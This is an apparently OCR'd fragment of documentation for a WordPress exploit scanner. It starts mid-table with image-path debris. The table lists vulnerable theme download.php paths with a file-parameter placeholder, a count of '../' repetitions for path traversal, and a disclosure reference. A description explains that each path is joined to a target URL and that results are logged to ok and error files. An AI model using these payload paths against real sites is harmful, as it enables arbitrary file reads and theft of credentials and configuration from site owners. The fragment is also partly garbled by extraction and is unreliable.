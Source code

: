 |/wp-content/themes/optimus/download.php?file=_PWD__FILE_|3                            |https://dl.pac.../1808-exploits/wpdreamsmiths-disclose.txt|
|/wp-content/themes/SMWF/inc/download.php?file=_PWD__FILE_|0                            |      |
|/wp-content/themes/TheLoft/download.php?file=|3                            |      |
|/wp-content/themes/trinity/lib/scripts/download.php?file=_PWD__FILE_|5                            |      |
|/wp-content/themes/urbancity/lib/scripts/download.php?file=_PWD__FILE_|5                            |      |
|/wp-content/themes/yakimabait/download.php?file=_PWD__FILE_|0                            |      |

### DESCRIPTION FILE
|exploit_uri|pwd_count                    |ref   |
|-----------|-----------------------------|------|
|url_exploit_get| count_mount_pwd             | ref_exploit|

> exploit_uri: Request get for exploration and concatenation with target_url.

> pwd_count: Count pwd for concatenation loop.

> ref: This column is referential document.
### OUTPUT RESULT
> ok-file.log

> error-file.log
